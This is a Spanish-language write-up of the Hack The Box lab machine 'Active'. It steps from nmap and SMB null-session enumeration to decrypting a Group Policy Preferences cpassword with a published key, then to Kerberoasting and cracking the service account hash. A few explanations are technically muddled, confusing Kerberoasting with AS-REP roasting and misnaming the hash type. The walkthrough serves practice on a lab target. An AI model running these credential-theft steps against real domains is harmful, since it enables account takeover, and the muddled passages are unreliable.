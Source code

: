 ```yaml
---
title: "LAPS Local Administrator Password Solution"
layout: post
---
```




<h2>LAPS Local Administrator Password Solution </h2>
Uno de los problemas con lo que lidia toda seguridad en una infraestructura es el manejo de credenciales para los distintos dispositivos de la red, credenciales de acceso para servidores, para la administracion de router, firewall y switches, soluciones como servidores de autenticacion remotos o Single Sign On, ayudan a la solucion de esto, pero hoy quiero hablarle de la solucion de Microsoft para el re-uso de credenciales por partes de los administradores.

Antes de LAPS una practica comun entre administradores era utilizar la misma contrasena en cada computadora, con el objetivo de poder acceder in caso de que algun evento lo impidiera. Esto trae como resultado que el comprometer una maquina cliente, se pudiera obtener el hash del RID 500 y loguearnos con el en cualquier computadora del dominio a traves de la cuenta local del administrador. 

_<h6>Brute Forcing SID 500 in Active Directory [Mark Mo][Mark Mo]</h6>_

<h2>Reconocimiento</h2>
En la fase de reconocimiento realizamos el siguiente network map, exportando el output en formato grep a un archivo llamado allports:
  
{% highlight bash %}
nmap -p- --min-rate 5000 10.10.10.100 -oG allports
{% endhighlight %}

**Output** Ports: 53/open/tcp//domain/, 88/open/tcp//kerberos-sec/, 135/open/tcp//msrpc, 139/open/tcp//netbios-ssn, 389/open/tcp//ldap/, 445/open/tcp//microsoft-ds/, 464/open/tcp//kpasswd5/, 593/open/tcp...

<h2>Puertos y Servicios</h2>
Con el fin de conocer un poco más de los servicios que se están ejecutando y lanzar una serie de script básico de reconocimiento para dichos puertos y servicios. 

{% highlight bash %}
nmap -p53,88,135,139,445,464,593,636,3268,3269,5722,9389 -sCV -A -oN allservices 10.10.10.100
{% endhighlight %}

![Ative HTB](/assets/images/services.png)

<h2> SMB smbmap % smbclient </h2>
A través de smbclient nos conectamos al directorio que tenemos acceso de lectura como nos indicó el comando, en este caso el directorio \Replication, luego de mapear dicho directorios con el comando smbmap que nos lista los permisos de los directorios, es decir si tenemos permisos de lectura y escritura:

{% highlight bash %}
smbmap -H 10.10.10.100
{% endhighlight %}

Con smbclient haciendo uso de un null session accedimos a listar dicho directorio y su contenido.
{% highlight bash %}
smbclient //10.10.10.100/Replicacion -U ""%""
{% endhighlight %}



Luego de navegar por el directorio policies en busca de algo interesante y observando cada archivo hasta dar con el archivo groups.xml, que según el siguiente article de [Hacking-Article][Hacking-Article] es creado como consecuencia de la configuración de Group Policy Preference, en la que permiten a un administrador crear policies e instalar aplicaciones a través de Group Policy. Y sobre la cual se guarda una contraseña encriptada en formato _cpassword_, y de la cual Microsoft publicó la llave, como podemos observar en el siguiente artículo, [Microsoft][Microsoft], trasladamos el contenido de dicha carpeta a nuestra carpeta content y efectivamente, como se puede observar, obtenemos las credenciales del usuario SVC_TGS:

{% highlight bash %} <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups> {% endhighlight %}

Desencriptamos la contraseña con el uso de la herramienta gpp-decrypt:


también podemos hacer uso de el siguiente one-liner ya que conocemos la llave como mencionamos anteriormente:
{% highlight bash %} echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000 {% endhighlight %}

<h2>Validación de credenciales</h2>

Utilizamos la herramienta crackmapexec.py del poderoso _impacket_ para verificar la autenticidad de dicho usuario en el dominio **active.htb**, las cuales resultaron ser válida aunque no obtuvimos un (Pwned!) e intentamos verificar si podiamos loguearnos a traves de winrm, pero no fue así. 



**Nota** desde aqui podemos visualizar la flag del user, haciendo uso de smbclient y navegando entre directorios :)

{% highlight bash %} smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingSt----8 {% endhighlight %}

Pero teniendo un usuario y contraseña, se nos hace posible realizar un Kerberoasting attack, el cual TCM Security explica detallamente, que nos _dumpea_ los krbasrep5 hashes de las cuentas que tienen _Kerberos pre-authentication deshabilidata_ pero que explico con más detalle en el siguiente artículo, sobre mis apuntes. 
Para esto utilizamos la herramienta _GetUserSPNs.py_, del poderoso impacket 🏅  

{% highlight bash %} GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS {% endhighlight %}

obtenemos el hash NTLMv2, enviamos a un archivo de texto y utilizamos John The Ripper, para obtener la credencial en texto plano.



y ya obteniendo credenciales de administrador como nos muestra la primera línea del output del GetUserSPNs.py, y contraseña nos logueamos en el sistema. 


Ya siendo Nt Authority\System, a buscar las flags.
Que he decidido mostrar solo si existe algún paso más para llegar a ellas, no que tan solo sea navegar entre directorios como es este el caso, para poder verla. 


[Mark Mo]: https://medium.com/@markmotig/brute-forcing-sid-500-in-active-directory-c9eb7c01a8a6
[Microsoft]: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0
